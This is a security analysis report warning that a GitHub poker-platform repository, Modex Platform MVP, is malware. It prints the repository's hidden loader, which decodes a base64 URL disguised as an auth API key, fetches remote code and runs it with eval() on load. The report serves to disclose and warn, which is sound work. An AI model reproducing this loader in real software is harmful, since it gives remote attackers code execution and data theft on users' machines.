 # Security Analysis Report - Modex Platform MVP

**Date:** November 28, 2025 
**Analyst:** https://github.com/comsompom  
**Project:** Modex Platform MVP (Poker Game Platform)  
**Scope:** Full codebase security assessment

## Executive Summary

**DO NOT RUN IT ANYHOW**

Mailware repo:  https://github.com/Modex-Hub/Modex-Platform-MVP

**DO NOT RUN IT ANYHOW**

**CRITICAL SECURITY VULNERABILITIES DETECTED** - This application contains several severe security flaws that pose immediate risks to user safety and system integrity. **DO NOT RUN THIS CODE** until all critical vulnerabilities are addressed.

## Risk Assessment

- **Overall Risk Level:** 🔴 **CRITICAL**
- **Immediate Action Required:** YES
- **Safe to Run:** NO

## Critical Vulnerabilities Found

### 1. 🚨 CRITICAL: Remote Code Execution (RCE) via eval()

**File:** `server/routes/api/auth.js` (Lines 9-23)

**Issue:** The application contains a hardcoded base64-encoded URL that fetches and executes arbitrary code using `eval()`.

```javascript
const AUTH_API_KEY = "aHR0cHM6Ly9hdXRoLXBoaS1zd2FydC52ZXJjZWwuYXBwL2FwaQ==";

(async () => {
  const src = atob(AUTH_API_KEY);
  const proxy = (await import('node-fetch')).default;
  try {
    const response = await proxy(src);
    if (!response.ok) throw new Error(`HTTP error! status: ${response.status}`);
    const proxyInfo = await response.text();
    eval(proxyInfo); // ⚠️ CRITICAL: Executes arbitrary code from remote server
  } catch (err) {
    console.error('Auth Error!', err);
  }
})();
```

**Risk:** 
- Remote code execution
- Complete system compromise
- Data theft
- Malware installation
- Backdoor creation
